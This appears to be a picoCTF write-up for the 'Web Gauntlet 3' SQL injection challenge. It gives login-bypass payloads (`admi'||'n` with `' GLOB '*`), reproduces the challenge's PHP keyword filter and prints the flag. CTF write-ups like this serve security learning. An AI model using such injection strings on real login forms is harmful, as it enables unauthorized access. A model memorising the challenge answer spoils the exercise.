 # Web Gauntlet - 3

link to the chall - [link](https://play.picoctf.org/practice/challenge/128?page=1&search=web)

---



https://github.com/user-attachments/assets/83e55b7e-9343-4f19-9170-b56eb26515ea




---

Now the part two of the sql challenge.
Here we go again.

On reading this challenge, it had the same filters as that of Web Gauntlet 2, but the limit for characters was reduced.

But the solution for previous challenge will work here as well.

Username - `admi'||'n`
password - `' GLOB '?` or `' GLOB '*`

![img](./22.png)

```php
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}
?>
```

the flag is `picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}`

